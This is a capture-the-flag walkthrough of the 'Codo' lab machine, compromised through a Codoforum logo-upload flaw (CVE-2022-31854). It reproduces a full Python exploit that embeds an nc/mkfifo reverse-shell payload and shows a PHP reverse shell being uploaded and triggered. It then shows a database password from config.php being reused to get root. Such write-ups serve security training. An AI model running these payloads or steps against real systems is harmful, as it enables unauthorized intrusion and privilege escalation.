


# Codo

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Easy
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 10
Number of Flags: 1
Lab Description:
This lab demonstrates exploiting a Remote Code Execution (RCE) vulnerability in Codoforum (CVE-2022-31854) by 
uploading a malicious PHP shell through the "Upload Logo" feature in the admin panel. The vulnerability allows 
an attacker to execute arbitrary commands as the www-data user. The lab highlights web application 
exploitation, file upload vulnerabilities, and initial foothold techniques.
Released: 16 Jun 2023
```

Machine link: [https://portal.offsec.com/machine/codo-50406/overview/details](https://portal.offsec.com/machine/codo-50406/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ export TARGET_IP=192.168.114.23

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ sudo nmap -sC -sV -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-05 09:58 +0100
Nmap scan report for 192.168.114.23
Host is up (0.033s latency).
Not shown: 65533 filtered tcp ports (no-response)
Bug in http-generator: no string output.
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: All topics | CODOLOGIC
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.85 seconds
```

We have two services running and available:

- OpenSSH 8.2p1 on port 22
- Apache httpd 2.4.41 on port 80

### Check the web site on port 80

Browsing manually to port 80 shows a Codoforum



Checking for additional files and directories with `gobuster` we find

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 32 -x html,php,txt,pdf -u http://$TARGET_IP
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.114.23
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,pdf
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 45225]
/admin                (Status: 301) [Size: 316] [--> http://192.168.114.23/admin/]
/sites                (Status: 301) [Size: 316] [--> http://192.168.114.23/sites/]
/cache                (Status: 301) [Size: 316] [--> http://192.168.114.23/cache/]
/sys                  (Status: 301) [Size: 314] [--> http://192.168.114.23/sys/]
/routes.php           (Status: 500) [Size: 0]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

On `/admin` we find a login page were we can login with `admin:admin`



The version of Codoforum is **v5.1.105**.

### Search for available exploits

Next we check for available exploits for this version

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ searchsploit codoforum 5.1
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                  |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CodoForum 2.5.1 - Arbitrary File Download                                                                                                                       | php/webapps/36320.txt
CodoForum v5.1 - Remote Code Execution (RCE)                                                                                                                    | php/webapps/50978.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ searchsploit -m 50978     
  Exploit: CodoForum v5.1 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50978
     Path: /usr/share/exploitdb/exploits/php/webapps/50978.py
    Codes: CVE-2022-31854
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (3846)
Copied to: /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Codo/50978.py


┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ cat 50978.py 
# Exploit Title: CodoForum v5.1 - Remote Code Execution (RCE)
# Date: 06/07/2022
# Exploit Author: Krish Pandey (@vikaran101)
# Vendor Homepage: https://codoforum.com/
# Software Link: https://bitbucket.org/evnix/codoforum_downloads/downloads/codoforum.v.5.1.zip
# Version: CodoForum v5.1
# Tested on: Ubuntu 20.04
# CVE: CVE-2022-31854

#!/usr/bin/python3

import requests
import time
import optparse
import random
import string

banner = """
  ______     _______     ____   ___ ____  ____      _____ _  ___ ____  _  _
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ // |( _ ) ___|| || |
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \| |/ _ \___ \| || |_
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) | | (_) |__) |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/|_|\___/____/   |_|
"""

print("\nCODOFORUM V5.1 ARBITRARY FILE UPLOAD TO RCE(Authenticated)")
print(banner)
print("\nExploit found and written by: @vikaran101\n")

parser = optparse.OptionParser()
parser.add_option('-t', '--target-url', action="store", dest='target', help='path of the CodoForum v5.1 install')
parser.add_option('-u', '--username', action="store", dest='username', help='admin username')
parser.add_option('-p', '--password', action="store", dest='password', help='admin password')
parser.add_option('-i', '--listener-ip', action="store", dest='ip', help='listener address')
parser.add_option('-n', '--port', action="store", dest='port', help='listener port number')

options, args = parser.parse_args()

proxy = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

if not options.target or not options.username or not options.password or not options.ip or not options.port:
    print("[-] Missing arguments!")
    print("[*] Example usage: ./exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]")
    print("[*] Help menu: ./exploit.py -h OR ./exploit.py --help")
    exit()

loginURL = options.target + '/admin/?page=login'
globalSettings = options.target + '/admin/index.php?page=config'
payloadURL = options.target + '/sites/default/assets/img/attachments/'

session = requests.Session()

randomFileName = ''.join((random.choice(string.ascii_lowercase) for x in range(10)))

def getPHPSESSID():

    try:
        get_PHPID = session.get(loginURL)
        headerDict = get_PHPID.headers
        cookies = headerDict['Set-Cookie'].split(';')[0].split('=')[1]
        return cookies
    except:
        exit()

phpID = getPHPSESSID()

def login():
    send_cookies = {'cf':'0'}
    send_headers = {'Host': loginURL.split('/')[2], 'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0', 'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8','Accept-Language':'en-US,en;q=0.5','Accept-Encoding':'gzip, deflate','Content-Type':'multipart/form-data; boundary=---------------------------2838079316671520531167093219','Content-Length':'295','Origin':loginURL.split('/')[2],'Connection':'close','Referer':loginURL,'Upgrade-Insecure-Requests':'1'}
    send_creds = "-----------------------------2838079316671520531167093219\nContent-Disposition: form-data; name=\"username\"\n\nadmin\n-----------------------------2838079316671520531167093219\nContent-Disposition: form-data; name=\"password\"\n\nadmin\n-----------------------------2838079316671520531167093219--"
    auth = session.post(loginURL, headers=send_headers, cookies=send_cookies, data=send_creds, proxies=proxy)

    if "CODOFORUM | Dashboard" in auth.text:
        print("[+] Login successful")

def uploadAndExploit():
    send_cookies = {'cf':'0', 'user_id':'1', 'PHPSESSID':phpID}
    send_headers = {'Content-Type':'multipart/form-data; boundary=---------------------------7450086019562444223451102689'}
    send_payload = '\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="site_title"\n\nCODOLOGIC\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="site_description"\n\ncodoforum - Enhancing your forum experience with next generation technology!\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="admin_email"\n\nadmin@codologic.com\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="default_timezone"\n\nEurope/London\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="register_pass_min"\n\n8\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="num_posts_all_topics"\n\n30\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="num_posts_cat_topics"\n\n20\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="num_posts_per_topic"\n\n20\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_attachments_path"\n\nassets/img/attachments\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_attachments_exts"\n\njpg,jpeg,png,gif,pjpeg,bmp,txt\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_attachments_size"\n\n3\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_attachments_mimetypes"\n\nimage/*,text/plain\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_tags_num"\n\n5\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_tags_len"\n\n15\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="reply_min_chars"\n\n10\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="insert_oembed_videos"\n\nyes\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_privacy"\n\neveryone\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="approval_notify_mails"\n\n\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_header_menu"\n\nsite_title\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="forum_logo"; filename="' + randomFileName + '.php"\nContent-Type: application/x-php\n\n<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ' + options.ip + ' ' + options.port + ' >/tmp/f");?> \n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="login_by"\n\nUSERNAME\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="force_https"\n\nno\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="user_redirect_after_login"\n\ntopics\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="sidebar_hide_topic_messages"\n\noff\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="sidebar_infinite_scrolling"\n\non\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="show_sticky_topics_without_permission"\n\nno\n-----------------------------7450086019562444223451102689\nContent-Disposition: form-data; name="CSRF_token"\n\n23cc3019cadb6891ebd896ae9bde3d95\n-----------------------------7450086019562444223451102689--\n'
    exploit = requests.post(globalSettings, headers=send_headers, cookies=send_cookies, data=send_payload, proxies=proxy)

    print("[*] Checking webshell status and executing...")
    payloadExec = session.get(payloadURL + randomFileName + '.php', proxies=proxy)
    if payloadExec.status_code == 200:
        print("[+] Payload uploaded successfully and executed, check listener")
    else:
        print("[-] Something went wrong, please try uploading the shell manually(admin panel > global settings > change forum logo > upload and access from " + payloadURL +"[file.php])")
login()
uploadAndExploit()     
```

Let's try it out.

We start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

and execute the exploit. Note that the exploit assumes you have a web proxy running on port 8080 in the background.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ python 50978.py
/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Codo/50978.py:20: SyntaxWarning: invalid escape sequence '\ '
  / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ // |( _ ) ___|| || |

CODOFORUM V5.1 ARBITRARY FILE UPLOAD TO RCE(Authenticated)

  ______     _______     ____   ___ ____  ____      _____ _  ___ ____  _  _
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ // |( _ ) ___|| || |
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \| |/ _ \___ \| || |_
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) | | (_) |__) |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/|_|\___/____/   |_|


Exploit found and written by: @vikaran101

[-] Missing arguments!
[*] Example usage: ./exploit.py -t [target url] -u [username] -p [password] -i [listener ip] -n [listener port]
[*] Help menu: ./exploit.py -h OR ./exploit.py --help

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ python 50978.py -t http://192.168.114.23 -u admin -p admin -i 192.168.45.179 -n 12345
/mnt/hgfs/OffSec_PG/PG_Practice/Easy/Codo/50978.py:20: SyntaxWarning: invalid escape sequence '\ '
  / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ // |( _ ) ___|| || |

CODOFORUM V5.1 ARBITRARY FILE UPLOAD TO RCE(Authenticated)

  ______     _______     ____   ___ ____  ____      _____ _  ___ ____  _  _
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ // |( _ ) ___|| || |
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \| |/ _ \___ \| || |_
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) | | (_) |__) |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/|_|\___/____/   |_|


Exploit found and written by: @vikaran101

[+] Login successful
[*] Checking webshell status and executing...
[-] Something went wrong, please try uploading the shell manually(admin panel > global settings > change forum logo > upload and access from http://192.168.114.23/sites/default/assets/img/attachments/[file.php])
```

But no joy! Let's try the manual approach instead.

### Get a reverse shell

We prepare a PHP reverse shell

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ webshells      

> webshells ~ Collection of webshells

/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php
┌──(kali㉿kali)-[/usr/share/webshells]
└─$ cd php    

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ ls -l                   
total 36
drwxr-xr-x 2 root root  4096 Aug 18  2024 findsocket
-rw-r--r-- 1 root root  2800 Nov 20  2021 php-backdoor.php
-rwxr-xr-x 1 root root  5491 Nov 20  2021 php-reverse-shell.php
-rw-r--r-- 1 root root 13585 Nov 20  2021 qsd-php-backdoor.php
-rw-r--r-- 1 root root   328 Nov 20  2021 simple-backdoor.php

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cp php-reverse-shell.php /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Codo 

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cd /mnt/hgfs/OffSec_PG/PG_Practice/Easy/Codo 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ vi php-reverse-shell.php 

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ head -n 20 php-reverse-shell.php 
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.179';  // CHANGE THIS
$port = 12345;           // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
```

Next, we upload the reverse shell as a logo.

Then we trigger the reverse shell with `curl`

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ curl "http://$TARGET_IP/sites/default/assets/img/attachments/php-reverse-shell.php"   

```

Back at the netcat listener, we have a shell

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.179] from (UNKNOWN) [192.168.114.23] 38682
Linux codo 5.4.0-150-generic #167-Ubuntu SMP Mon May 15 17:35:05 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 09:36:04 up 40 min,  0 users,  load average: 0.00, 0.00, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
$ tty
not a tty
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@codo:/$ ^Z
zsh: suspended  nc -lvnp 12345
                                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Easy/Codo]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  nc -lvnp 12345

www-data@codo:/$ export SHELL=/bin/bash
www-data@codo:/$ export TERM=xterm-256color
www-data@codo:/$ stty rows 200 columns 200
www-data@codo:/$ ^C
www-data@codo:/$ 
```

Now we have a shell that survives `Ctrl + C`!

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

First we check for SUID files

```bash
www-data@codo:/$ find / -type f -perm /4000 -ls 2>/dev/null
      672     40 -rwsr-xr-x   1 root     root        39144 Mar  7  2020 /usr/bin/fusermount
      857    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
     1096     68 -rwsr-xr-x   1 root     root        67816 Feb  7  2022 /usr/bin/su
     1168     40 -rwsr-xr-x   1 root     root        39144 Feb  7  2022 /usr/bin/umount
     2331     68 -rwsr-xr-x   1 root     root        68208 Nov 29  2022 /usr/bin/passwd
     2328     52 -rwsr-xr-x   1 root     root        53040 Nov 29  2022 /usr/bin/chsh
     2327     84 -rwsr-xr-x   1 root     root        85064 Nov 29  2022 /usr/bin/chfn
      491     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
      824     56 -rwsr-xr-x   1 root     root        55528 Feb  7  2022 /usr/bin/mount
    10037     44 -rwsr-xr-x   1 root     root        44784 Nov 29  2022 /usr/bin/newgrp
     2330     88 -rwsr-xr-x   1 root     root        88464 Nov 29  2022 /usr/bin/gpasswd
     2539     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
    11608     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     2642    464 -rwsr-xr-x   1 root     root         473576 Apr  3  2023 /usr/lib/openssh/ssh-keysign
     1383     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
     2541     24 -rwsr-xr-x   1 root     root          22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
     8050    144 -rwsr-xr-x   1 root     root         146888 May 29  2023 /usr/lib/snapd/snap-confine
      812     84 -rwsr-xr-x   1 root     root          85064 Mar 14  2022 /snap/core20/1518/usr/bin/chfn
      818     52 -rwsr-xr-x   1 root     root          53040 Mar 14  2022 /snap/core20/1518/usr/bin/chsh
      887     87 -rwsr-xr-x   1 root     root          88464 Mar 14  2022 /snap/core20/1518/usr/bin/gpasswd
      971     55 -rwsr-xr-x   1 root     root          55528 Feb  7  2022 /snap/core20/1518/usr/bin/mount
      980     44 -rwsr-xr-x   1 root     root          44784 Mar 14  2022 /snap/core20/1518/usr/bin/newgrp
      993     67 -rwsr-xr-x   1 root     root          68208 Mar 14  2022 /snap/core20/1518/usr/bin/passwd
     1102     67 -rwsr-xr-x   1 root     root          67816 Feb  7  2022 /snap/core20/1518/usr/bin/su
     1103    163 -rwsr-xr-x   1 root     root         166056 Jan 19  2021 /snap/core20/1518/usr/bin/sudo
     1161     39 -rwsr-xr-x   1 root     root          39144 Feb  7  2022 /snap/core20/1518/usr/bin/umount
     1248     51 -rwsr-xr--   1 root     systemd-resolve    51344 Apr 29  2022 /snap/core20/1518/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1620    463 -rwsr-xr-x   1 root     root              473576 Mar 30  2022 /snap/core20/1518/usr/lib/openssh/ssh-keysign
      821     84 -rwsr-xr-x   1 root     root               85064 Nov 29  2022 /snap/core20/1891/usr/bin/chfn
      827     52 -rwsr-xr-x   1 root     root               53040 Nov 29  2022 /snap/core20/1891/usr/bin/chsh
      896     87 -rwsr-xr-x   1 root     root               88464 Nov 29  2022 /snap/core20/1891/usr/bin/gpasswd
      980     55 -rwsr-xr-x   1 root     root               55528 Feb  7  2022 /snap/core20/1891/usr/bin/mount
      989     44 -rwsr-xr-x   1 root     root               44784 Nov 29  2022 /snap/core20/1891/usr/bin/newgrp
     1004     67 -rwsr-xr-x   1 root     root               68208 Nov 29  2022 /snap/core20/1891/usr/bin/passwd
     1114     67 -rwsr-xr-x   1 root     root               67816 Feb  7  2022 /snap/core20/1891/usr/bin/su
     1115    163 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /snap/core20/1891/usr/bin/sudo
     1173     39 -rwsr-xr-x   1 root     root               39144 Feb  7  2022 /snap/core20/1891/usr/bin/umount
     1262     51 -rwsr-xr--   1 root     systemd-resolve    51344 Oct 25  2022 /snap/core20/1891/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1634    463 -rwsr-xr-x   1 root     root              473576 Mar 30  2022 /snap/core20/1891/usr/lib/openssh/ssh-keysign
      297    129 -rwsr-xr-x   1 root     root              131832 May 12  2023 /snap/snapd/19361/usr/lib/snapd/snap-confine
www-data@codo:/$ 
```

Nothing that stands out.

Next, we check for capabilities

```bash
www-data@codo:/$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/snap/core20/1518/usr/bin/ping = cap_net_raw+ep
/snap/core20/1891/usr/bin/ping = cap_net_raw+ep
www-data@codo:/$ 
```

Nothing there either.

Next, we search for credentials under the web root

```bash
www-data@codo:/home/offsec$ cd /var/www/html/
www-data@codo:/var/www/html$ ls -l
total 76
-rwxr-xr-x 1 www-data www-data 24726 Sep 28  2020 README.md
drwxr-xr-x 8 www-data www-data  4096 Sep 28  2020 admin
drwxrwxrwx 6 www-data www-data  4096 Sep 28  2020 cache
-rwxr-xr-x 1 www-data www-data   392 Sep 28  2020 index.php
-rwxr-xr-x 1 www-data www-data 26536 Sep 28  2020 routes.php
drwxr-xr-x 3 www-data www-data  4096 Sep 28  2020 sites
drwxr-xr-x 7 www-data www-data  4096 Sep 28  2020 sys
www-data@codo:/var/www/html$ find . -name config.php
./sys/vendor/hybridauth/hybridauth/examples/example_06/config.php
./sys/vendor/hybridauth/hybridauth/examples/example_07/config.php
./sites/default/config.php
./admin/modules/config.php
www-data@codo:/var/www/html$ cat ./sites/default/config.php
<?php

/* 
 * @CODOLICENSE
 */

defined('IN_CODOF') or die();

$CF_installed=true;

function get_codo_db_conf() {


    $config = array (
  'driver' => 'mysql',
  'host' => 'localhost',
  'database' => 'codoforumdb',
  'username' => 'codo',
  'password' => 'FatPanda123',
  'prefix' => '',
  'charset' => 'utf8',
  'collation' => 'utf8_unicode_ci',
);

    return $config;
}

$DB = get_codo_db_conf();

$CONF = array (
    
  'driver' => 'Custom',
  'UID'    => '631042af544ef',
  'SECRET' => '631042af544f0',
  'PREFIX' => ''
);
www-data@codo:/var/www/html$ 
```

### Get a root shell

We have a password (`FatPanda123`) that we should check for reuse!

```bash
www-data@codo:/var/www/html$ su root
Password: 
root@codo:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root)
root@codo:/var/www/html# 
```

### Get the root flag

Finally, we can get the root flag

```bash
root@codo:/var/www/html# cd /root
root@codo:~# ls -l
total 12
-rw-r--r-- 1 root root    7 Jun 14  2023 email2.txt
-rw-rw-rw- 1 root root   33 Mar  5 08:58 proof.txt
drwx------ 3 root root 4096 Jun 15  2022 snap
root@codo:~# cat proof.txt 
6<REDACTED>b
root@codo:~# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [capabilities - Linux manual page](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [getcap - Linux manual page](https://man7.org/linux/man-pages/man8/getcap.8.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [head - Linux manual page](https://man7.org/linux/man-pages/man1/head.1.html)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH  - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [searchsploit - Kali Tools](https://www.kali.org/tools/exploitdb/#searchsploit)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [su - Linux manual page](https://man7.org/linux/man-pages/man1/su.1.html)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tty - Linux manual page](https://man7.org/linux/man-pages/man1/tty.1.html)
- [webshells - Kali Tools](https://www.kali.org/tools/webshells/)
